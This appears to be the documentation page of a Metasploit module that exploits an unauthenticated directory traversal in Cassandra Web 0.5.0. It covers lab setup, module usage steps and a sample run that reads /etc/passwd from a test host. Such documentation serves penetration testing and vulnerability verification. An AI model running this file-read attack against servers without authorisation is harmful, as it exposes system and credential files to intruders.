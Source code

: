 ## Vulnerable Application
[Cassandra Web](https://rubygems.org/gems/cassandra-web) is an interface for Apache Cassandra using Ruby, Event-machine, AngularJS,
Server-Sent-Events and DataStaxRuby driver for Apache Cassandra.

This module has been tested successfully on Cassandra Web versions:
* cassandra-web-0.5.0 on Debian 10.11 (buster) with ruby 2.5.5p157 and Apache Cassandra 3.11.13

### Description

This module exploits an unauthenticated directory traversal vulnerability in Cassandra Web
'Cassandra Web' version 0.5.0 and earlier, allowing arbitrary file read with the web server privileges.
This vulnerability occurred due to the disabled Rack::Protection module.

This web service listens on TCP port 3000 by default on all network interface.

Source and Installers:
* [Source Code Repository](https://github.com/avalanche123/cassandra-web)
* [Installers](https://rubygems.org/gems/cassandra-web)

Ruby installation:
```
apt install ruby-full -y
```

Gem installation:
```
gem install cassandra-web
```

Apache Cassandra Installation:
```
cat << EOF > /etc/apt/sources.list.d/cassandra.list
deb https://www.apache.org/dist/cassandra/debian 311x main
EOF
cat << EOF > /etc/apt/sources.list.d/adoptopenjdk.list
deb https://adoptopenjdk.jfrog.io/adoptopenjdk/deb/ buster main
EOF
wget -q -O - https://www.apache.org/dist/cassandra/KEYS | apt-key add -
wget -qO - https://adoptopenjdk.jfrog.io/adoptopenjdk/api/gpg/key/public | apt-key add -
apt update && apt install adoptopenjdk-8-hotspot cassandra -y
```

Run Cassandra Web:
```
cassandra-web
```

## Verification Steps
1. Do: `use auxiliary/scanner/http/cassandra_web_file_read.rb`
2. Do: `set RHOSTS [ips]`
3. Do: `run`

## Options

## Scenarios
### Cassandra Web 0.5.0 Linux Debian 10.11 (Ruby 2.5.5p157 and Apache Cassandra 3.11.13)
```
msf6 > use auxiliary/scanner/http/cassandra_web_file_read
msf6 auxiliary(scanner/http/cassandra_web_file_read) > set RHOSTS 192.168.56.1
RHOSTS => 192.168.56.1
msf6 auxiliary(scanner/http/cassandra_web_file_read) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cassandra Web Detected
[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ntp:x:107:115::/nonexistent:/usr/sbin/nologin
cassandra:x:108:116:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin


[+] File saved in: /home/git/.msf4/loot/20220802185716_default_192.168.56.1_cassandra.web.tr_160962.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
